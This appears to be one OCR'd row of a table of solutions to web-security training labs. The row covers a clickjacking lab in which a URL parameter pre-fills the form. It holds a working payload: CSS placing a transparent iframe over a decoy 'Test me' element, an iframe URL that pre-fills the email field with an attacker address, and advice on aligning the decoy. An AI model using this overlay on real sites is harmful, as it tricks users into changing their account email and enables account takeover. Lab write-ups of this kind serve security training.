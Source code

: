 |55    |Clickjacking with form input data prefilled from a URL parameter                                                         |<style>     iframe {         position:relative;         width:$width_value;         height: $height_value;         opacity: $opacity;         z-index: 2;     }     div {         position:absolute;         top:$top_value;         left:$side_value;         z-index: 1;     } </style> <div>Test me</div> <iframe src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |/my-account?email=hacker@attacker-website.com  This will pre-fill the text box, then the clickjacking attack will update the email address accordingly. Again, make sure to line up the “click me” box appropriately.  top: 400px side: 80px                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |Apprentice, Clickjacking                    |
